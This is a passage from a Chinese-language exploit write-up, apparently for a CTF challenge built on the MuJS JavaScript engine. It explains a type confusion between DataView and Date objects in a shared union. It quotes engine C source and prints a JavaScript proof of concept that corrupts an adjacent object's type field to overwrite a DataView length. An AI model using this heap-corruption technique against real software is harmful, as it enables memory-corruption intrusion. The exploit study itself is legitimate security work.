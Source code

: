 ```c
};
```

​		联合体中，与`u.dataview.length`变量在同一内存地址处的，还有`u.number`，`u.a.length`，`u.c.name`，这里利用的思路，通过溢出`type`字段造成类型混淆，混淆成别的数据类型，然后覆写`u.dataview.length`所在地址。

​		通过回溯对结构体变量的赋值，可以找到：

```c
static void Dp_setTime(js_State *J)
{
	js_setdate(J, 0, js_tonumber(J, 1));
}

static void js_setdate(js_State *J, int idx, double t)
{
	js_Object *self = js_toobject(J, idx);
	if (self->type != JS_CDATE)
		js_typeerror(J, "not a date");
	self->u.number = TimeClip(t);
	js_pushnumber(J, self->u.number);
}
```

​		可以调用`setTime`方法来改写`js_Object->u.number`的值。

​		这里要涉及到关于`javascript`原型链相关的一些知识，`poc`如下：

```c
b = DataView(0x68);
a = DataView(0x68);
b = DataView(0x68);
c = DataView(0x68);
d = new Date();

print(c);
b.setUint8(0x68+8,0xa);
//print(c);
print(c);
print(c.prototype);
//Date.prototype.setTime.bind(c)(1.09522e+12)
Date.prototype.setTime.bind(c)(1.09522e+12);

b.setUint8(0x68+8,16);
print(c.getLength());
```

​		四次申请`DataView`对象和原型的地址：

![image-20220310140031718](C:\Users\wolf\AppData\Roaming\Typora\typora-user-images\image-20220310140031718.png)

![image-20220310140104859](C:\Users\wolf\AppData\Roaming\Typora\typora-user-images\image-20220310140104859.png)

![image-20220310140258762](C:\Users\wolf\AppData\Roaming\Typora\typora-user-images\image-20220310140258762.png)
